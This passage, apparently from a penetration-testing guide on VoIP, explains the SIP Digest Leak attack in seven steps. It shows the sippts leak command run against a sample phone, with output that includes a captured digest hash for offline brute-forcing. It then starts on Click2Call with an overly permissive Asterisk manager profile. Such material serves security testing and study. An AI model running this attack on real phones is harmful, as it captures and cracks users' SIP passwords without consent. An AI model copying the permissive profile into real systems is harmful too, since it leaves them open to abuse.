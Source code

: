 1. An IP Phone (victim) is listening on any port (for example: 5060), accepting phone calls
2. The attacker sends an INVITE to the IP Phone
3. The victim phone starts ringing and someone picks up and hangs up (because no one answers the phone at the other end)
4. When the phone is hung up, the **victim phone sends a BYE to the attacker**
5. The **attacker issues a 407 response** that **asks for authentication** and issues an authentication challenge
6. The **victim phone provides a response to the authentication challenge** in a second BYE
7. The **attacker can then issue a brute-force attack** on the challenge response on his local machine (or distributed network etc) and guess the password

* **SIPPTS leak** from [**sippts**](https://github.com/Pepelux/sippts)**:** SIPPTS leak exploits the SIP Digest Leak vulnerability that affects a large number of SIP Phones. The output can be saved in SipCrack format to bruteforce it using SIPPTS dcrack or the SipCrack tool.

```bash
sippts leak -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
	... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
[=>] Request 200 Ok

Auth=Digest username="pepelux", realm="asterisk", nonce="lcwnqoz0", uri="sip:100@10.10.0.10:56583;transport=UDP", response="31fece0d4ff6fd524c1d4c9482e99bb2", algorithm=MD5
```

### Click2Call

Click2Call allows a **web user** (who for example might be interested in a product) to **introduce** his **telephone number** to get called. Then a commercial will be called, and when he **picks up the phone** the user will be **called and connected with the agent**.

A common Asterisk profile for this is:

```scss
[web_user]
secret = complex_password
deny = 0.0.0.0/0.0.0.0
allow = 0.0.0.0/0.0.0.0
displayconnects = yes
read = system,call,log,verbose,agent,user,config,dtmf,reporting,crd,diapla
write = system,call,agent,user,config,command,reporting,originate
```
